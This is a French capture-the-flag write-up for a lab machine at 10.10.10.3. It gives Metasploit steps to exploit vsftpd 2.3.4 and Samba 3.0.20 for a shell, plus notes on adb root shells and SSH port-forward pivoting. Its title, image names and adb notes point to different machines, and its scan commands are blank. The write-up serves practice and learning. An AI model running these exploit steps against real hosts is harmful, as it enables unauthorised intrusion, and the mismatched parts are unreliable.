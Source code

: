 
# Explore - Easy

### Objectif : 
    Se connecter à la machine et trouver les flags de user.txt et root.txt

### Information :

Addresse IP : ** **

### Process : 

##### Récolte d'information : 

###### Scan du réseau : 

```bash
# premier scan
nmap 
# deuxième scan
nmap 

```
*
    * 
    * 
    * 
    * 

###### résultat du premier scan
!["Étapes d'un pentest"](../../Ressources/IMG/Machine-Lame-01.png)

###### résultats du deuxième scan

###### Détection des vulnérabilités :

Nous utiliserons métasploit pour détecter et exploiter les vulnérabilités

**Accès à métasploit**
```bash
msfconsole
```
###### Recherche de la vulnérabilité
```bash
# dans la console de metasploit
 search vsftpd 2.3.4
 use 0 
 setg RHOSTS 10.10.10.3
 exploit
```

###### Exploitation de la vulnérabilité

##### vulnérabilité 1 : vsftpd 2.3.4
!["Étapes d'un pentest"](../../Ressources/IMG/Machine-Lame-6.png)

Étant donné que le premier ne marche pas, on va essayer de chercher d'autres vulnérabilités : essayons l'os découvert grâce au scan nmap : **samba 3.0.20** 
##### vulnérabilité 2 : samba 3.0.20
```bash
# dans la console de metasploit
 search samba 3.0.20
 use 0 
 setg RHOSTS 10.10.10.3
 setg LHOST <Mon addresse IP>
 exploit
```
!["Étapes d'un pentest"](../../Ressources/IMG/Machine-Lame-04.png)


!["Étapes d'un pentest"](../../Ressources/IMG/Machine-Lame-05.png)
Nous avons donc accès à la console de la cible
###### Recherche des fichier avec 
```bash
# cette commande nous donne les répertoires dans lesquelles se trouves les fichiers qu'on recherche
find / -name "nom_du_fichier" 2>/dev/null
```

!["Étapes d'un pentest"](../../Ressources/IMG/Machine-Lame-07.png)

### Ce que j'ai Appris :

* utilisation de adb pour les androids : 
```bash
adb shell :  pour avoir accès au shell de adb 
adb devices : lister tous les appareils 
adb <device_name> disconnect 
adb root / unroot : passer en root ou pas
```

* Tunnel pivoting avec ssh :  
```bash
ssh -L [MonPort]:IPAdresstoconnect:[MachinePort I Want to Bind] IPAdresstoconnect -p [ normal port to connect] 
```
* Approfondissement metasploit : 
```bash
show actions
set action <nom de l'action ou numero> 
```
